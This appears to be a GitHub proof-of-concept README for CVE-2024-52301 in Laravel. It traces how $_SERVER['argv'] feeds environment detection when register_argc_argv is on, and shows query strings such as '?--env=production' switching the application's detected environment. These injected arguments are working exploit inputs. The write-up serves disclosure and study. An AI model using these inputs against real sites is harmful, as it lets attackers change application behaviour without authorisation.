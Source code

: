 # CVE-2024-52301 POC

This vulnerability is based on the CVE-2024-50340 vulnerability.
## Requirements

The register_argc_argv option must be enabled in the PHP configuration file (php.ini). This setting loads command-line arguments and query params into $_SERVER['argv'].

[https://www.php.net/manual/en/ini.core.php#ini.register-argc-argv](https://www.php.net/manual/en/ini.core.php#ini.register-argc-argv)
## Explanation of Vulnerable Code

//Illuminate\Foundation\Application
public function detectEnvironment (Closure $callback)
{
    $args = $_SERVER['argv'] ?? null;

    return $this['env'] = (new EnvironmentDetector)->detect($callback, $args);
}

Purpose: This method detects the environment by accessing $_SERVER['argv'], which holds command-line arguments, and then delegates to the EnvironmentDetector class.

Vulnerability Source: By relying on $_SERVER['argv'], any injected URL parameters (e.g., ?--env=dev) could manipulate $_SERVER['argv'] to contain ["--env=dev"]. This array is passed directly to detect, potentially allowing an attacker to control the environment.

```html
//Illuminate\Foundation\EnvironmentDetector
public function detect(Closure $callback, $consoleArgs = null)
{
    if ($consoleArgs) {
        return $this->detectConsoleEnvironment($callback, $consoleArgs);
    }

    return $this->detectWebEnvironment($callback);
}
```

Purpose: The detect method determines if $consoleArgs (the argv array) is provided. If present, it calls detectConsoleEnvironment to handle console-based environment detection; otherwise, it calls detectWebEnvironment for HTTP requests.

Pathway to Vulnerability: If $_SERVER['argv'] includes injected values like --env=dev, it leads to detectConsoleEnvironment, which processes the arguments and could switch the application to a different environment.

```html
//Illuminate\Foundation\EnvironmentDetector
protected function detectConsoleEnvironment(Closure $callback, array $args)
{
    // First we will check if an environment argument was passed via console arguments
    // and if it was that automatically overrides as the environment. Otherwise, we
    // will check the environment as a "web" request like a typical HTTP request.
    if (! is_null($value = $this->getEnvironmentArgument($args))) {
        return $value;
    }

    return $this->detectWebEnvironment($callback);
}
```

Purpose: This method checks if the --env argument is present among console arguments.

Mechanism: It calls getEnvironmentArgument to see if any of the argv arguments specify an environment. If --env is provided, this method returns the specified environment value, bypassing the detectWebEnvironment call.

```html
//Illuminate\Foundation\EnvironmentDetector
protected function getEnvironmentArgument(array $args)
{
    foreach ($args as $i => $value) {
        if ($value === '--env') {
            return $args[$i + 1] ?? null;
        }

        if (str_starts_with($value, '--env=')) {
            return head(array_slice(explode('=', $value), 1));
        }
    }
}
```

Purpose: This method parses argv to find the --env argument. Mechanism:

If --env is found as a standalone flag, it returns the next argument as the environment value.

If --env= syntax is used (e.g., --env=dev), it extracts and returns the environment (dev in this case).

## PoC Example

https://github.com/Nyamort/CVE-2024-52301#poc-example

Environment Configuration:

The .env file has APP_ENV=development, so by default, the application is set to the development environment.

```html
@production
    <p>Production environment</p>
@endproduction

@env ('local')
    <p>Local environment</p>
@endenv
```

**Default Access ([http://localhost](http://localhost)):**  
Since APP_ENV is set to development and no --env argument is injected, neither the @production nor the @env('local') directive matches.  
**Result**: The output is empty.

**Injected Argument for Production ([http://localhost?--env=production](http://localhost?--env=production)):**  
With ?--env=production in the URL, $_SERVER['argv'] is manipulated to contain ["--env=production"].  
This triggers Laravel's environment detection mechanism, setting the environment to production.  
Result: The @production directive outputs `<p>Production environment</p>`.

**Injected Argument for Local ([http://localhost?--env=local](http://localhost?--env=local)):**  
With ?--env=local, $_SERVER['argv'] includes ["--env=local"], changing the environment to local.  
Result: The @env('local') directive outputs `<p>Local environment</p>`

## Attention

This vulnerability does not allow changing the environment within the `config` function. Instead, it only affects the environment setting within the Application class.

Thus, although Blade directives and other parts of the code rely on the Application class to detect the environment, the code using the config function is not affected by this vulnerability.